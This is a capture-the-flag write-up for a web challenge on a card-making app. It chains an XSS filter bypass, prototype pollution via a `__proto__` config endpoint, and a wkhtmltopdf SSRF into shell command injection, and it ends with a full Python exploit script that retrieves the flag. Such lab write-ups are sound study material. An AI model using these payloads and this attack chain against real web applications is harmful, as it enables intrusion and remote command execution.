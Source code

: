 ```yaml
---
ai_date: '2025-04-27 05:26:08'
ai_summary: XSS vulnerability via `safe` filter bypass, also prototype pollution allowing
  SSRF exploitation through PDF generation
ai_tags:
- xss
- prototype-pollution
- ssrf
created: 2025-03-02T05:54
points: 600
solves: 6
updated: 2025-03-18T02:30
---
```


`| safe` bypasses safety checks, this is definitely a XSS attack vector.

```html
<div class="box-left">
	{{ userAvatarUrl | renderUrlAsAvatar | safe }}
</div>
```

After looking a bit, my `userAvatarUrl` has to pass the url check.

```js
function isValidHttpUrl(url) {
    if (typeof url !== "string") return false;
    try {
        const parsedUrl = new URL(url);
        return parsedUrl.protocol === "http:" || parsedUrl.protocol === "https:";
    } catch (e) {
        return false;
    }
}
```

Well we can simply bypass it with this.

```
http://qwd.w?<img onerror='alert(1)' src=0>
```

But wait, the image itself is again generated from somewhere else.

```js
userData.getAvatarUrl = async function () {
	// Lazy loading pattern
	if (typeof this.avatarUrl == 'undefined') {
		// Trick: checking if the Github handle is valid by verifying the existence of a profile pic
		let isValidGithubHandle;
		try {
			const githubProfilePicUrl = `https://github.com/${this.github}.png`;
			isValidGithubHandle = (await axios.get(githubProfilePicUrl, {maxRedirects: 2})).status === 200;
		} catch {
			isValidGithubHandle = false;
		}
		this.avatarUrl = isValidGithubHandle ? `https://github.com/${this.github}.png` : 'undefined';
	}
	return this.avatarUrl;
};
```

Some minor changes should make it still work.

```
http://github.com/ octo-kumo.png?<img onerror='alert(1)' src=0> .png
```

Oh wait! There's another filter!

```js
function isLikelyValidGitHubHandle(username) {
    if (typeof username !== "string") return false;
    const regex = /^[a-zA-Z0-9]([a-zA-Z0-9-]{0,37}[a-zA-Z0-9])?$/;
    return regex.test(username);
}
```
## prototype pollution
Wait... there's prototype pollution?

```js
app.post('/set-config', [
	body('config')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
	body('key')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
	body('val')
		.trim()
		.isString()
		.notEmpty()
		.withMessage('Config must be a non-empty string.'),
],
async (req, res) => {
	const errors = validationResult(req);
	if (!errors.isEmpty()) {
		return res.status(400).json({errors: errors.array()});
	}
	const cfg = req.body.config;
	if (cfg in config) {
		const key = req.body.key;
		const val = req.body.val;
		config[cfg][key] = val;
		res.json({message: `Mode set to ${val}`});
	} else {
		return res.status(400).json({errors: [`Invalid configuration ${val}`]});
	}
});
```

Wait... prototype pollution can bypass the hard regex filters!

```js
userData.getAvatarUrl = async function () {
	// Lazy loading pattern
	if (typeof this.avatarUrl == 'undefined') {
		// Trick: checking if the Github handle is valid by verifying the existence of a profile pic
		let isValidGithubHandle;
		try {
			const githubProfilePicUrl = `https://github.com/${this.github}.png`;
			isValidGithubHandle = (await axios.get(githubProfilePicUrl, { maxRedirects: 2 })).status === 200;
		} catch {
			isValidGithubHandle = false;
		}
		this.avatarUrl = isValidGithubHandle ? `https://github.com/${this.github}.png` : 'undefined';
	}
	return this.avatarUrl;
};
```

Now we just need a payload here.

```js
function renderUrlAsAvatar(url) {
    const imgUrl = isValidHttpUrl(url) ? url : `https://i.pravatar.cc/400?u=${Math.floor(Math.random() * 1000) + 1}`;
    return `<div style="border-radius: 50%;overflow: hidden;width: 100%;"><img src="${imgUrl}" style="width: 100%; height: 100%; object-fit: cover;"/></div>`
}
```

This should work pretty well.

```
"http://w.w?\" onerror=\"alert(1)"
```

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1740915439/2025/03/4398a7878da7e227f57d0b8eca92489d.png)

It worked!

So we have XSS, now what?

## PDF SSRF

Turns out **wkhtmltopdf:0.12.6** has a 9.8 vuln [NVD - CVE-2022-35583](https://nvd.nist.gov/vuln/detail/CVE-2022-35583).

I couldn't find PoCs on it, but I think the gist of it is to use iframes.

If we get a SSRF from `/make-card-pdf` back onto `/make-card-pdf` but with malicious inputs, we have free shell.

There is no validation on `/make-card-pdf`.

A naïve solution is complete.

```python
print(prototype('avatarUrl', 'http://yun.ng?"><iframe src="http://127.0.0.1:1984/make-card-pdf?data=\'`ls`\' ce79f83f719f29dab8dd7818048fc99a"></iframe>'))
```

But it doesn't work.

```
Error: Failed to load http://127.0.0.1:1984/make-card-pdf?data='%60ls%60' ce79f83f719f29dab8dd7818048fc99a, with network status code 204 and http status code 401 - Host requires authentication
```

Turns out I had to escape the space.

But after a lot of experimenting I couldn't get the output of the command to display in the pdf.

So I decided to just overwrite (or not) a previous PDF with the output of `/usr/bin/echo-flag`

```python
prototype('avatarUrl', 'http://yun.ng?innocent')
cardId1 = makeCard()
print("target cardId:", cardId1)
cardId = makeCard()
prototype('avatarUrl', 'http://yun.ng?"><iframe src="http://localhost:1984/make-card-pdf?data=\'`/usr/bin/echo-flag>/home/chall/storage/'+cardId1+'.pdf`\'%20'+cardId+'" width="600" height="500"></iframe><!--')
cardId = makeCard()
print("Card ID:", cardId)
downloadCard(cardId)

flag = requests.get(target + '/download-card?email=ww@ww.com&cardId='+cardId1).text
print(flag)
```

```flag
ATHACKCTF{Spacele$$_$$urfing_On_Polluted_$hells}
```


```python
import re
import requests

target = 'http://localhost:14569/'

# target = 'http://localhost:2025/'


def prototype(key, val):
    return requests.post(target + '/set-config', data={
        'config': '__proto__',
        'key': key,
        'val': val
    }).text


def makeCard():
    text = requests.post(target + '/create-card', data={
        'firstName': 'yun',
        'lastName': 'yun',
        'email': 'yun@yun.ng',
        'github': 'octo-kumo',
        'company': 'Yun'
    }).text
    return re.search(r'cardId" value="([0-9a-f]+)', text).group(1)


def downloadCard(cardId):
    return requests.get(target + '/download-card', params={
        "cardId": cardId,
        "email": "yun@yun.ng"
    }).content


prototype('avatarUrl', 'http://yun.ng?innocent')
cardId1 = makeCard()
print("target cardId:", cardId1)
cardId = makeCard()
prototype('avatarUrl', 'http://yun.ng?"><iframe src="http://localhost:1984/make-card-pdf?data=\'`/usr/bin/echo-flag>/home/chall/storage/'+cardId1+'.pdf`\'%20'+cardId+'" width="600" height="500"></iframe><!--')
cardId = makeCard()
print("Card ID:", cardId)
downloadCard(cardId)

flag = requests.get(target + '/download-card?email=ww@ww.com&cardId='+cardId1).text
print(flag)
```